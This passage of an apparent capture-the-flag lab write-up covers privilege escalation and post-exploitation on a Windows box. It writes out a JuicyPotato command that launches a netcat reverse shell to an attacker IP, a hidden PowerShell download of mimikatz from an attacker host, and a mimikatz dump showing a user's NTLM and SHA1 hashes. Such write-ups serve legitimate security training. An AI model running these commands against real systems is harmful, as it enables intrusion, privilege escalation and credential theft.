 [Back to top](#contents) ⤴

# Exploiting

One thing should raise your attention is that **SeImpersonatePrivilege** is set. This is causing a potential vulnerability that can be exploited using JuicyPotato (read more in *Additional readings* section)

```plaintext
echo START C:\inetpub\wwwroot\wordpress\wp-content\plugins\pshield_plugin\nc342as.exe -e powershell.exe 10.10.XX.XXX 9004 > jp52345.bat
.\jp324d.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\plugins\pshield_plugin\jp52345.bat -l 9004 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

![3380900278873.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251252596/RzX2H0MSI.png align="left")

```plaintext
C:\Users\Administrator\Desktop>type root.txt
type root.txt
6******************************a
```

[Back to top](#contents) ⤴

# Post-exploitation

Because I've got the System access and I know that future boxes can use some credentials from this one - I'm downloading the `mimikatz` to read the logged in `sandra` user.

```plaintext
powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.XX.XXX/mc231.exe','mc231.exe')"
```

![3284913879648.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251295188/eVPGYeEMk2.png align="left")

## Read credentials from a memory

```plaintext
mimikatz # privilege::debug
Privilege '20' OK
```

Useless information are truncated from below output.

```plaintext
mimikatz # sekurlsa::logonpasswords

// ...

Authentication Id : 0 ; 291603 (00000000:00047313)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 6/7/2021 4:13:28 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
	msv :	
	 [00000003] Primary
	 * Username : sandra
	 * Domain   : MEGACORP
	 * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
	 * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
	 * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
	tspkg :	
```